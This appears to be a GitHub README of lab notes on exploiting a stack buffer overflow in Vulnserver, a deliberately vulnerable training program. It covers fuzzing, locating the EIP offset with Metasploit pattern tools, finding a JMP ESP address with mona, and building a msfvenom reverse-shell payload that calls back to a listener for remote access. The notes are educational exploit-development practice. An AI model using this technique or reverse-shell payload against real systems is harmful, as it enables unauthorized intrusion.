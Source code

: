 # Vulnserver exploit development


## Exploit background

Version: VulnServer

Debugger use: Immunity Debugger

OS: Windows XP SP3 32-bit

## Development steps


1. Use `fuzz.py` to know how many A will get overflow.

    You will see AAAA on EIP `CPU - thread 000006BC` window

2. Use pattern to locate where EIP is

    ```sh
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 396F4338
    [*] Exact match at offset 2006
    ```

3. Observer and find that ESP is pointing to the begining of CCCCCC

    ![hashdump](../../images/vuln_bbbb.png)

4. Expand the payload from 2100 to 2500 by increase the length of CCCC section, Run again and confirm that this works.

    ![hashdump](../../images/vuln_490c.png)

5. Bad characters checker, badchars is \x00 only, see code at bad_chars.py

6. Call `!mona modules`, the result is display on `Log data` windows, find that vulnserver.exe and vulnserver.dll is not protected.

    ![hashdump](../../images/vuln_modules.png)

7. Inspect the memory map on `Memory map` windows

    ![hashdump](../../images/vuln_memory_map.png)

8. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

    ```
    root@kali:~/Desktop/exercise/7_win_bufferoverflow/vulnserver# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    jmp esp 
    nasm > jmp esp
    00000000  FFE4              jmp esp
    ```

9. use mona to find address => 0x625011af

    `!mona find -s "\xff\xe4" -m essfunc.dll`

    ![hashdump](../../images/vuln_dll_ffe4.png)

10. update the script to replace B with address  \xaf\x11\x50\x62, set breakpoint at 0x625011af

    ![hashdump](../../images/vuln_exec_cccc.png)

11. run pre_exploit.py, the breakpoint trigger and run to CCCCCC

    ![hashdump](../../images/vuln_breakpoints.png)

12. Now create a payload and replace the CCC section

    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00"
    ```

13. Create and run exploit.py, and a reverse shell is spawn.

    ![hashdump](../../images/reverse_shell.png) 

## Extra knowledge

!!! Dont attach to an existing process, use open.


Explain of NXCOMPACT, only protect 
https://blog.csdn.net/zhou191954/article/details/38048345
